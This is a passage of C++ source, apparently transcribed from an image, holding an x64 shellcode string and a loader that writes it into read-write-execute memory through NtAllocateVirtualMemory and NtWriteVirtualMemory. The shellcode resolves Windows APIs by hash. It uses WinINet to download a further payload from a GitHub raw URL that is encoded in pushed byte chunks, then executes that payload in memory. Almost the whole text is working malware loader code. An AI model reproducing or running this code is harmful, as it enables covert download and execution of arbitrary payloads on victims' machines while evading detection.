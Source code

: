 ```cpp
        "\x90\x90\x90\x90\x90\x90\x90\x48\x83\xec\x28\x48\x83\xe4\xf0\x48\x31\xc9\x65\x48\x8b\x41\x60\x48\x8b\x40\x18\x48\x8b\x70\x10\x48\x8b\x36\x48\x8b\x36\x48\x8b\x5e\x30\x49\x89\xd8\x8b\x5b\x3c\x4c\x01\xc3\x48\x31\xc9\x66\x81\xc1\xff\x88\x48\xc1\xe9\x08\x8b\x14\x0b\x4c\x01\xc2\x44\x8b\x52\x14\x4d\x31\xdb\x44\x8b\x5a\x20\x4d\x01\xc3\x4d\x89\xdd\x4c\x89\xd1\x67\xe3\x0e\x31\xdb\x41\x8b\x1c\x8b\x4c\x01\xc3\x48\xff\xc9\xeb\x1e\xeb\x7f\xff\xc1\x4d\x31\xdb\x44\x8b\x5a\x1c\x4d\x01\xc3\x45\x8b\x3c\x8b\x4d\x01\xc7\x41\x57\x4d\x89\xeb\xff\xc9\xeb\xd1\x31\xc0\x48\x89\xde\x48\x31\xdb\x8a\x1e\x84\xdb\x74\x0a\xc1\xc0\x05\x31\xd8\x48\xff\xc6\xeb\xf0\x3d\x35\x8d\x77\x80\x74\xc5\x3d\xca\x5a\x15\x4a\x74\xbe\x3d\x78\x95\xb7\x85\x74\xb7\x3d\x33\x8a\x8d\xb6\x74\xb0\x3d\x95\xfe\xde\xc7\x74\xa9\x3d\x1b\x01\xa1\xa4\x74\xa2\x3d\x93\xb6\x36\xe5\x74\x9b\x3d\xa7\x70\xdb\xe3\x74\x94\x3d\xfd\x5a\xfc\xce\x74\x8d\x3d\x64\x71\x27\xd7\x74\x86\xe9\x6e\xff\xff\xff\x48\xb8\x77\x69\x6e\x69\x6e\x65\x74\x90\x48\xc1\xe0\x08\x48\xc1\xe8\x08\x50\x48\x89\xe1\x48\x83\xec\x28\x48\x8b\x44\x24\x50\xff\xd0\x48\x83\xc4\x30\x48\x89\xc7\x48\x89\xf9\x48\xb8\x4f\x70\x65\x6e\x41\x90\x90\x90\x48\xc1\xe0\x18\x48\xc1\xe8\x18\x50\x48\xb8\x49\x6e\x74\x65\x72\x6e\x65\x74\x50\x48\x89\xe2\x48\x83\xec\x30\x48\x8b\x44\x24\x58\x48\x89\xc6\xff\xd0\x48\x83\xc4\x30\x49\x89\xc7\x48\x31\xc0\x50\x48\x89\xf9\x48\xb8\x4f\x70\x65\x6e\x55\x72\x6c\x41\x50\x48\xb8\x49\x6e\x74\x65\x72\x6e\x65\x74\x50\x48\x89\xe2\x48\x83\xec\x38\xff\xd6\x48\x83\xc4\x30\x49\x89\xc6\x48\x89\xf9\x48\x31\xc0\x50\x48\xb8\x52\x65\x61\x64\x46\x69\x6c\x65\x50\x48\xb8\x49\x6e\x74\x65\x72\x6e\x65\x74\x50\x48\x89\xe2\x48\x83\xec\x38\xff\xd6\x48\x83\xc4\x30\x49\x89\xc5\x48\x89\xf9\xb8\x64\x6c\x65\x90\xc1\xe0\x08\xc1\xe8\x08\x50\x48\xb8\x43\x6c\x6f\x73\x65\x48\x61\x6e\x50\x48\xb8\x49\x6e\x74\x65\x72\x6e\x65\x74\x50\x48\x89\xe2\x48\x83\xec\x38\xff\xd6\x48\x83\xc4\x30\x49\x89\xc4\x48\x31\xd2\xb8\x35\x2e\x30\x90\xc1\xe0\x08\xc1\xe8\x08\x50\x48\xb8\x4d\x6f\x7a\x69\x6c\x6c\x61\x2f\x50\x48\x89\xe1\xba\x01\x00\x00\x00\x4d\x31\xc0\x4d\x31\xc9\x48\xc7\x44\x24\x20\x00\x00\x00\x00\x48\x83\xec\x30\x41\xff\xd7\x48\x83\xc4\x30\x48\x89\xc7\xb9\x00\x00\x00\x00\xba\x00\x50\x00\x00\x41\xb8\x00\x30\x00\x00\x41\xb9\x04\x00\x00\x00\x48\x83\xc4\x60\x48\x8b\x44\x24\x50\x48\x89\xc6\xff\xd0\x41\x5f\xb9\x00\x00\x00\x00\xba\x00\x01\x00\x00\x41\xb8\x00\x30\x00\x00\x41\xb9\x04\x00\x00\x00\x48\x89\xf0\xff\xd0\x50\x4c\x8b\x4c\x24\x48\x5e\x48\x81\xec\x98\x00\x00\x00\x48\xb8\x65\x67\x2e\x64\x79\x6e\x6f\x90\x48\xc1\xe0\x08\x48\xc1\xe8\x08\x50\x48\xb8\x73\x2f\x6d\x61\x69\x6e\x2f\x72\x50\x48\xb8\x65\x66\x73\x2f\x68\x65\x61\x64\x50\x48\xb8\x61\x72\x2f\x72\x61\x77\x2f\x72\x50\x48\xb8\x65\x72\x74\x68\x65\x72\x61\x64\x50\x48\xb8\x73\x74\x33\x6d\x2f\x75\x6e\x64\x50\x48\xb8\x6f\x6d\x2f\x67\x33\x74\x73\x79\x50\x48\xb8\x67\x69\x74\x68\x75\x62\x2e\x63\x50\x48\xb8\x68\x74\x74\x70\x73\x3a\x2f\x2f\x50\x49\x89\xe0\x48\x89\xf1\x4c\x89\xc2\x4d\x31\xc0\x41\xb8\x47\x00\x00\x00\x41\xff\xd1\x48\x83\xc4\x58\x48\x89\xf9\x48\x89\xf2\x45\x31\xc0\x45\x31\xc9\xc7\x44\x24\x20\x00\x00\x00\x04\x48\xc7\x44\x24\x28\x00\x00\x00\x00\x41\xff\xd6\x48\x83\xc4\x28\x50\x48\x8b\x34\x24\x48\x8b\x0c\x24\x4c\x89\xfa\x41\xb8\x00\x10\x00\x00\x4c\x8d\x4c\x24\xd0\x48\x31\xc0\x41\xff\xd5\x85\xc0\x74\x11\x83\x7c\x24\xd0\x00\x76\x0a\x8b\x4c\x24\xd0\x89\x4c\x24\xc0\xeb\xd3\x48\x89\xf1\x41\xff\xd4\x48\x89\xf9\x41\xff\xd4\xb9\x00\x00\x00\x00\xba\x00\x50\x00\x00\x41\xb8\x00\x30\x00\x00\x41\xb9\x40\x00\x00\x00\x48\x8b\x84\x24\xb0\x00\x00\x00\xff\xd0\x50\x59\x4c\x89\xfa\x41\xb8\xe8\x03\x00\x00\x48\x8b\x84\x24\xa8\x00\x00\x00\xff\xd0\x50\x48\x31\xc9\x48\x31\xd2\x41\x58\x4d\x31\xc9\xc7\x44\x24\x20\x00\x00\x00\x00\x48\xc7\x44\x24\x28\x00\x00\x00\x00\x48\x8b\x84\x24\x88\x00\x00\x00\xff\xd0\x48\x89\xc1\xba\xff\xff\xff\xff\x48\x8b\x9c\x24\xc8\x00\x00\x00\xff\xd3\x31\xc9\x48\x8b\x84\x24\x90\x00\x00\x00\xff\xd0";

    PVOID baseAddress = nullptr;
    SIZE_T size = sizeof(shellcode);

    NTSTATUS status = pNtAllocate(GetCurrentProcess(), &baseAddress, 0, &size,
        MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
    if (status != 0) {
        std::cerr << "[-] NtAllocateVirtualMemory failed. Error code: 0x" << std::hex << status << "\n";
        return -1;
    }
    std::cout << "[+] Memory allocated at " << baseAddress << "\n";

    SIZE_T bytesWritten = 0;
    status = pNtWrite(GetCurrentProcess(), baseAddress, shellcode, sizeof(shellcode), &bytesWritten);
    if (status != 0) {
        std::cerr << "[-] NtWriteVirtualMemory failed. Error code: 0x" << std::hex << status << "\n";
        return -1;
    }
    std::cout << "[+] Wrote " << bytesWritten << " bytes of shellcode.\n";

    HANDLE hThread = nullptr;
```